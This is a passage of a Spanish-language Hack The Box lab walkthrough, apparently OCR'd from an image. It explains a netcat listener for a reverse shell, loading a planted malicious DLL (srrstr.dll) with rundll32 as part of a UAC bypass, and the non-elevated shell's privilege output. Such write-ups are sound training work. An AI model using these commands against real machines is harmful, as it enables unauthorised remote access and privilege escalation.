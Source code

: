 
## 14. Preparar el listener — `nc -lvnp 8443`

```
CyberWolfSec@htb[/htb]$ nc -lvnp 8443
```

* **`nc`:** Se usa para escuchar conexiones entrantes.
* **Flags:**

  * `-l` listen,
  * `-v` verbose,
  * `-n` no DNS lookup,
  * `-p 8443` puerto 8443.
* **Objetivo:** Esperar la conexión reversa que el DLL ejecutará.

---

## 15. Probar la DLL con `rundll32`

```
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

* **`rundll32`**: Utilidad de Windows para ejecutar funciones exportadas de DLLs.
* **Sintaxis usada:** `rundll32 shell32.dll,Control_RunDLL <path a DLL>` invoca la función `Control_RunDLL` exportada por `shell32.dll` y pasa como argumento la DLL objetivo; en este contexto se fuerza la carga/ejecución de la DLL maliciosa.
* **Resultado inicial:** Al ejecutar esto se obtiene una shell reversa con **privilegios normales** (UAC aún presente), por lo que la conexión inicial muestra credenciales de usuario no elevadas.


```
C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

---

## 16. Verificar/terminar procesos `rundll32` antes del exploit final
